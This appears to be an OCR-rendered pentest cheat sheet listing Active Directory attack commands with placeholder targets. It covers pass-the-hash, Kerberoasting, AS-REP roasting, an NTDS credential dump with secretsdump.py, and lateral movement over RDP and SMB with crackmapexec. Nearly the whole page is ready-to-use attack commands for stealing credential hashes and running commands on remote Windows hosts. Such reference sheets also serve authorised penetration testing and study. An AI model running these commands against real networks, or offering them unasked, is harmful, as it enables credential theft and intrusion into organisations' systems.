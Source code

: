 
### Pass-the-Hash

```
pth-winexe -U DOMAIN/username%NTLM_HASH //TARGET_IP cmd.exe
```

Authenticate to a Windows host using NTLM hash without knowing the plaintext password.

---

### Kerberoasting

```
impacket-GetUserSPNs -request -dc-ip DC_IP DOMAIN/username:password
```

Request SPN tickets to crack service account passwords from Active Directory.

---

### AS-REP Roasting

```
impacket-GetNPUsers DOMAIN/ -usersfile users.txt -dc-ip DC_IP
```

Extract AS-REP hashes from users without preauthentication to crack passwords.

---

### NTDS Dump

```
secretsdump.py DOMAIN/username:password@DC_IP
```

Dump Active Directory database and extract user hashes for privilege escalation.

---

### RDP Lateral Movement

```
xfreerdp /u:user /p:pass /v:TARGET_IP
```

Move laterally to other hosts using RDP with valid credentials.

---

### SMB Lateral Movement

```
crackmapexec smb TARGET_IP -u username -p password --exec-method smbexec cmd.exe
```

Execute commands on remote Windows hosts via SMB for lateral movement.

---